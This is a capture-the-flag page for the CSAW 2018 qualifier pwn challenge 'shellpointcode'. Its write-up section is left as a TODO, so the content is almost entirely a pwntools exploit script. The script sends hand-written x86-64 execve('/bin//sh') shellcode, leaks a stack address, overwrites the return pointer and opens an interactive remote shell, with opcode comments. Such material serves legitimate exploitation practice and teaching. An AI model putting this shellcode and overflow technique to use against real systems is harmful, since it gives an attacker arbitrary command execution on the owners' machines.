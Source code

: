 # CSAW ctf quals 2018 : shellpointcode

**Category:** Pwn
**Points:** 100

> r = remote("pwn.chal.csaw.io",9005)
> #r = process("./shellpointcode")
> #context.terminal = ['tmux', 'splitw', '-h']
> #gdb.attach(r, gdbscript='''
> #    continue
> #''')

> raw_input()
#break *0x555555554918

print r.recvuntil(":")
payload1 = "\x3b\x00\x00\x00\x00\x00\x00\x00" #location
r.sendline(payload1)
print r.recvuntil(":")
payload2 = "\x53\x5e\x55\x53\x5a\x48\x8d\x3c\x24\x50\xB0\x3B\x0f\x05\x90"
# x/20i $rip-20

# push rbx = \x53 push null characters
# pop rsi = \x5e
# push rbp = \x55 push /bin//sh onto stack
# lea rdi, [rsp] = \x48\x8d\x3c\x24
# syscall = \x0F\x05
# pop rax = \x58

# pop rdx = \x5a
# add rsp,0x28 = \x48\x83\xC4\x28

r.sendline(payload2)
print r.recvuntil("0x")
beis = r.recv(12)
log.info("location of Bs: " + beis)
print r.recvuntil("?")
payload3 = "a" * 3 + "\x2F\x62\x69\x6E\x2F\x2F\x73\x68" + p64( int(beis, 16) + 0x8) + "\x00"
#this will have the string of /bin//sh and a null termininator after the popped
r.sendline(payload3)
print "payload sent"
#raw_input()
r.recvline()
r.interactive()

## Write-up

(TODO)

## Other write-ups and resources

* none yet

